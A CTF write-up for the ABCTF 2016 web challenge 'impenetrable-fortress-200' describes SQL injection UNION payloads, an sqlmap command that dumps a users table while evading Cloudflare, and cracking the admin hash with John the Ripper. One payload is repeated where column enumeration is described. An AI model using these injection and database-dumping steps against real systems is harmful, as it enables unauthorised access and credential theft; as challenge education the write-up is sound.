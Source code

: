# ABCTF 2016 : impenetrable-fortress-200

**Category:** Web
**Points:** 200
**Solves:** 14
**Description:**

Some times an application is secure and you have to find another way around. Log in with admin credentials and you will receive a flag. Try it [here](http://yrmyzscnvh.abctf.xyz/lastweb/)!

## Write-up

We are presented a website where a username & password prompt is located. The first thought is to try injecting the username parameter, which turns out to be unsuccessful.

After looking at the hint (find the other way around) I looked at the other web challenges present - the title matches with web4, thus I tried my luck there.

Let's enumerate tables first -> `' AND 3=8 UNION SELECT table_name, 2 FROM INFORMATION_SCHEMA.TABLES #`, getting the tables `webfour` and `users`. The last table is our goldmine, as we can obtain our username / pw combo there.

Let's enumerate columns in `users` table -> `' AND 3=8 UNION SELECT table_name, 2 FROM INFORMATION_SCHEMA.TABLES #` discovering the column names are `username` and `hashedpassword`.

I could not select the columns from the database (nothing showed on the website) so I used SQLmap to dump the db -> `python sqlmap.py -u "http://yrmyzscnvh.abctf.xyz/web4/" --data "input=1" --random-agent --user-agent='' --dump -D webnine -T users`.  (used random user agent to get rid of CloudFlare)

The dump contains 3 entries:


| username           | hashedpassword                         |
|--------------------|----------------------------------------|
| admin              | 758e04774a12864b5b707dddc131d91d       |
| IntelAgent is cool | PM me this code for nothing: jowlprowl |
| jowls              | jowls                                  |

Using JtR (John the Ripper) with rockyou wordlist we discover that the hash corresponds to `cardoor`.

After logging in we see the flag: `abctf{th3_l4st_0n3_1s_th3_b3st_0n3}`

## Other write-ups and resources

* https://0x90r00t.com/2016/07/24/abctf-2016-se-and-xss-the-art-of-phishing-and-trolling/
